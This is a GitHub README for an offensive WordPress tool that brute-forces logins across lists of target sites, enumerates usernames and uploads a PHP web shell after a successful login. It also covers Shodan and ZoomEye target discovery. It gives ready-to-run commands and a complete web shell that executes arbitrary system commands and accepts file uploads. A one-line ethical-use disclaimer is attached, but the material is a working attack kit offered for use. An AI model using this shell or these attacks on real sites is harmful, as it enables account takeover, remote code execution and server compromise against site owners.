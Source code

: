 # k0ur1i WordPress Tool
![secure-wordpress-login-1024x597](https://github.com/user-attachments/assets/05942416-4cc7-424d-a31d-1ebb606e7efe)

## Author: k0ur1i
## Version: 1.0

## Overview
This tool is a versatile CLI-based WordPress security tester designed to automate:

Brute Force Attacks to test WordPress login credentials.
User Enumeration to discover valid usernames.
Auto Shell Upload to simulate PHP shell exploitation upon successful login.


```

██████╗░░██████╗░███████╗███████╗░██████╗░░█████╗░██████╗░██████╗
██╔══██╗██╔════╝░██╔════╝██╔════╝██╔════╝░██╔══██╗██╔══██╗██╔══██╗
██║░░██║██║░░░░░░█████╗░░█████╗░░██║░░██╗░███████║██║░░██║██║░░██║
██║░░██║██║░░░░░░██╔══╝░░██╔══╝░░██║░░╚██╗██╔══██║██║░░██║██║░░██║
██████╔╝╚██████╗░███████╗███████╗╚██████╔╝██║░░██║██████╔╝██████╔╝
╚═════╝░░╚═════╝░░╚══════╝╚══════╝░╚═════╝░╚═╝░░╚═╝╚═════╝░╚═════╝░

by k0ur1i

--------------------------------------------------
[INFO] Current Date and Time:  2024-11-28 12:34:56
--------------------------------------------------
[1] Brute Force Attack
[2] User Enumeration
[3] Auto Upload PHP Shell
[4] Exit
Choose an option: 
```


## Features
1. Multi-target brute force support.
2. Customizable username and password wordlists.
3. User enumeration for discovering valid accounts.
4. Automatic PHP shell upload upon login success.
5. Fast, multithreaded execution.
   

## Requirements
```pip install -r requirements.txt ```

1. Python 3.8+
2. ```git clone https://github.com/00xk0uR1i/kouriBruter ```
3. Run the script:
# Brute Force Attack

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt -t 10 --timeout 10`

    -T: Target file containing URLs of WordPress sites.
    -U: User list file for usernames.
    -P: Password list file for brute-forcing.
    -t: Number of threads (default 10).
    --timeout: HTTP request timeout in seconds (default 10).
 # User Enumeration

   
    - `python3 run.py -T targets.txt -U users.txt --enumerate` ✨ new ✨
    - `--enumerate: Enumerate usernames without brute-forcing.` ✨ new ✨
 # Auto Upload PHP Shell

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt --upload-shell shell.php`
    - `--upload-shell: Specify the path to a PHP shell file for automatic upload.` ✨ new ✨
    
# example 
```python3 run.py```
1. Select [1] for brute force.
2. Input paths to targets.txt, users.txt, and passlist.txt.
3. The tool will attempt login credentials and display successful attempts.

This tool is intended for ethical use only. Unauthorized testing or exploitation is illegal and may result in severe consequences. Use it only on systems you own or have explicit permission to test. **Note**: They might not get updated frequently and are kept for legacy reasons:

- `Configure the script` (Add your Shodan API key:
SHODAN_API_KEY = "your_shodan_api_key")
- `Add your ZoomEye API key (if applicable).
   Configure the Nuclei path and templates.` (legacy)

## Example Exploit Script

```

<?php
// Simple PHP Web Shell

if (isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}

if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "Uploaded: " . $_FILES['file']['name'];
    die;
}

?>
<!DOCTYPE html>
<html>
<head>
    <title>k0ur1i Shell</title>
</head>
<body>
    <h1>Welcome to k0ur1i Shell</h1>
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <button type="submit">Execute</button>
    </form>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
</body>
</html>

```


Note:

## This tools for ethical hacker I am Not responsible for any bad use .

## License
# This project is licensed under the MIT License.

>thanks for all 
